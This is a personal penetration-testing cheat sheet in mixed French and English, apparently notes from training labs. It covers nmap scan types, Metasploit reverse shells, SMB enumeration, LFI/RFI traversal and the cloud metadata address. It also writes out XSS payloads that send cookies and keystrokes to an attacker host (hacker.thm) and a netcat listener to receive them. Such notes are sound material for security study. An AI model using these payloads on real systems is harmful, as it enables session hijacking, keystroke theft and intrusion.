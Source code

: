 Reconnaissance :
 * NMAP scan :
    * TCP connect : `-sT` -> respond with RST or SYN/ACK. Bad with firewall (packets dropped)
    * SYN scan : `-sS` -> stealth, faster
    * NULL : `-sN` -> stealth, respond with RST if closed
    * FIN : `-sF` -> stealth, respond with RST if closed
    * XMAS : `-sX`-> stealth, respond with RST if closed
    * UDP : `-sU` -> open|filtered
    * ICMP : `-sn` -> network discovery
    * Firewall evasion : `-Pn` ->  not ping before scan
    * Firewall spot : `--badsum`-> if response it has firewall
    * Vuln scan : `nmap -Pn --script vuln` ou `-sV --script vulscan/vulscan.nse` ou `-sV --script nmap-vulners/` 
 * Exporter pour searchsploit : `nmap [...] -oX result.xml`
 * Gobuster :

Metasploit :
 * Chercher l'exploit -> mettre les options (RHOSTS, LHOST, LPORT) -> mettre un payload (windows/x64/shell/reverse_tcp) -> faire un reverse meterpreter (shell_to_meterpreter)
 Meterpreter :
   * Upload un fichier : `upload <path host>`
   * Avoir powershell : `load powershell` + `powershell_shell`
   

 SMB :
 * Enumerate share `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <IP>`
 * Port : 139/445


 Searchsploit :
 * Chercher un titre : `searchsploit -t <titre>`
 * Importer les résultats de nmap : `searchsploit -x --nmap result.xml`

 Web exploring :
 * Robots.txt
 * Source code (comments, js)
 * Favicon to get framework (https://wiki.owasp.org/index.php/OWASP_favicon_database)
 * Subdomain : dnsrecon (dns bruteforce), Sublist3r, Certs (https://crt.sh)
 * Brute force a lot of things : ffuf & `/usr/share/seclists` lists
 * IDORs : chercher avec les IDs des comptes si on peut swap, et chercher les dev paths non référencés
 * LFI (local file inclusion) : 
   * when using get.php, function file_get_contents 
   * When using include in php code, we can use it to access other files. When seeing ?<function>=<path>.php, we can use the ../ attack
   * If adding some extension at the end (.php for ex) : use %00 or 0x00 (NULL BYTE) to cut off extension. Not working for PHP 5.3.4 and above
   * if filtering, can use "....//" instead of "../"
 * RFI (remote file inclusion) :
   * Need "allow_url_fopen" be on
   * Same as LFI
 * SSRF : Server-side Request Forgery
   * Full URL used, partial url or path of url
 * XSS :
   * Reflected : When putting XSS in the request, work when sending link to victim
   * Stored : stored in the web app
   * DOM based : Use DOM to attack
   * Blind : Same as stored but can't test it (ex : messages). Tool : https://github.com/mandatoryprogrammer/xsshunter-express
   * CheatSheet :
     * Session stealing : `fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));`
     * Key logger : `document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}`
     * When using in HTML : close tag and then put the script `<script>alert('THM');</script>`
     * With JS : Use `//` to comment the EOL and then execute the code
     * Polyglot XSS : all in one bypass filters/tags/attributes
     * To receive information : use netcat in attack machine `nc -nplv <port>`and then send payload like this `</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`
     * https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
  * Command injection :
    * Cheatsheet : https://github.com/payloadbox/command-injection-payload-list
  * SQL injection :
    * 
 * Cloud environment : 
   * IP with sensitive environment : 169.254.169.254

 Hash :
  * Crackstation.com

Usefull tools :
 * https://pipedream.com


